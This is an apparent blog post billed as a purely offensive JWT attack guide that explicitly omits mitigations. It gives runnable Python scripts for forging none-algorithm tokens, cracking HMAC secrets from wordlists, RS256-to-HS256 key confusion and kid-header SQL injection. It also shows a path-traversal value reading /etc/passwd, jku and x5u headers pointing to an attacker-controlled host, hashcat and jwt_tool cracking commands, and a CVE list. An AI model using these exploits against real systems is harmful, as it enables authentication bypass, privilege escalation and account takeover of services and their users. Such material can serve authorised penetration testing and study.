







# JWT Attacks — Complete Offensive Guide

JWT (JSON Web Token) is widely used for authentication and authorization in APIs, microservices, mobile apps, and OAuth flows.  
When implemented incorrectly, it becomes one of the **most abused authentication mechanisms** in modern applications.

This blog covers:

- All known JWT attack techniques
- Misconfigurations & exploitation chains
- Real-world CVEs
- Tools used in the wild
- Practical attack flows
- Advanced header injection attacks
- Signature bypasses
- Key confusion attacks
- Token forgery techniques
- CVE references
- Automation examples

No mitigation discussion — pure offensive content.

---

# JWT Structure Refresher



JWT Format:

```
HEADER.PAYLOAD.SIGNATURE
```

---

# JWT Attack Surface Overview



---

# 1️⃣ None Algorithm Attack

If server accepts:

```
"alg": "none"
```

Signature verification is skipped.

---

### Attack Flow



---

### Exploit Script

```python
import base64
import json

def b64url_encode(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

header = {"alg": "none", "typ": "JWT"}
payload = {"sub": "admin", "role": "admin"}

encoded_header = b64url_encode(json.dumps(header).encode())
encoded_payload = b64url_encode(json.dumps(payload).encode())

token = f"{encoded_header}.{encoded_payload}."
print(token)
```

---

# 2️⃣ Weak HMAC Secret — Brute Force

If algorithm = HS256 and secret is weak:

- "secret"
- "password"
- "admin"
- "jwtsecret"
- "123456"

You can crack it.

---

### Attack Flow



---

### Hashcat

```bash
hashcat -a 0 -m 16500 jwt.txt rockyou.txt
```

---

### Python Cracker

```python
import jwt

token = "YOUR.JWT.TOKEN"
wordlist = open("rockyou.txt")

for word in wordlist:
    secret = word.strip()
    try:
        jwt.decode(token, secret, algorithms=["HS256"])
        print("SECRET FOUND:", secret)
        break
    except:
        continue
```

---

# 3️⃣ Algorithm Confusion (RS256 → HS256)

Server expects RS256 but doesn’t enforce algorithm.

You sign token with:

- HS256
- Use server’s public key as HMAC secret

---

### Attack Flow



---

### Exploit

```python
import jwt

public_key = open("public.pem").read()

payload = {"sub": "admin", "role": "admin"}

token = jwt.encode(payload, public_key, algorithm="HS256")
print(token)
```

---

# 4️⃣ kid Header SQL Injection

Server does:

```sql
SELECT key FROM keys WHERE id = '{kid}'
```

Inject SQL.

---

### Malicious Header

```json
{
  "alg": "HS256",
  "kid": "' UNION SELECT 'secret' --"
}
```

---

### Python Generator

```python
import jwt

payload = {"sub": "admin", "role": "admin"}

token = jwt.encode(
    payload,
    "secret",
    algorithm="HS256",
    headers={"kid": "' UNION SELECT 'secret' --"}
)

print(token)
```

---

# 5️⃣ kid Path Traversal

Server loads key from filesystem:

```python
open("keys/" + kid)
```

Exploit:

```
kid=../../../../etc/passwd
```

---

# 6️⃣ JKU Injection

Header contains:

```json
{
  "jku": "https://attacker.com/jwks.json"
}
```

Server fetches your malicious key.

---

### Attack Flow



---

# 7️⃣ JWK Injection

Direct key injection inside header:

```json
{
  "jwk": {
    "kty": "RSA",
    "e": "AQAB",
    "n": "attacker_generated_modulus"
  }
}
```

Server uses attacker-provided key.

---

# 8️⃣ x5u Injection

```json
{
  "x5u": "https://attacker.com/cert.pem"
}
```

Server fetches attacker certificate.

---

# 9️⃣ Signature Not Verified

Some apps decode token but don’t verify signature.

```python
jwt.decode(token, options={"verify_signature": False})
```

Then trust payload.

Exploit: Modify payload only.

---

# 🔟 Claim Manipulation Attacks

Modify:

- `role`
- `sub`
- `aud`
- `iss`
- `exp`
- `nbf`
- `iat`

---

### Expiration Bypass

Set:

```json
"exp": 9999999999
```

---

### Audience Bypass

Remove `aud` claim if not checked.

---

# 11️⃣ JWT Token Replay

If token never expires:

- Capture token
- Replay anytime

---

# 12️⃣ JWT Stored in LocalStorage

XSS → steal JWT → full takeover.

---

# 13️⃣ CVEs Related to JWT

| CVE | Description |
|------|------------|
| CVE-2015-2951 | None algorithm vulnerability in JWT libraries |
| CVE-2016-5431 | JWT verification bypass |
| CVE-2017-11424 | RS256 to HS256 confusion |
| CVE-2018-0114 | Cisco JWT bypass |
| CVE-2020-26160 | JWT signature bypass |
| CVE-2022-21449 | Java ECDSA signature bypass ("Psychic Signatures") |
| CVE-2022-23529 | node-jsonwebtoken RCE |
| CVE-2022-39227 | go-jose signature verification bypass |
| CVE-2022-29217 | Nimbus JOSE signature bypass |
| CVE-2023-30839 | JWT validation bypass |

---

# Tools for JWT Attacks

### jwt_tool

```bash
python3 jwt_tool.py <JWT>
```

Test none algorithm:

```bash
python3 jwt_tool.py <JWT> -X a
```

Brute force:

```bash
python3 jwt_tool.py <JWT> -C -d rockyou.txt
```

---

### jwt.io

Manual decode & test.

---

### hashcat

```bash
hashcat -m 16500 jwt.txt rockyou.txt
```

---

### Burp JWT Editor

Extension for testing:

- none attack
- kid injection
- JWK injection
- brute forcing

---

# Advanced JWT Attack Decision Tree



---

# Real Bug Bounty Impact

JWT flaws can lead to:

- Full account takeover
- Privilege escalation to admin
- API key forgery
- Payment bypass
- Internal service access
- Multi-tenant data leakage
- Complete cloud compromise

Many JWT bugs are rated:

- **High**
- **Critical**
- CVSS 9.0+

---

# Conclusion

JWT vulnerabilities are among the most powerful authentication bypasses in modern web applications.

When exploited successfully, they lead to:

- Complete privilege escalation
- Authentication bypass
- Full application compromise

JWT attacks remain one of the most common critical findings in bug bounty programs and enterprise penetration tests.

---

*Last updated: January 25, 2024*
*Author: Security Researcher*
*License: MIT*
```
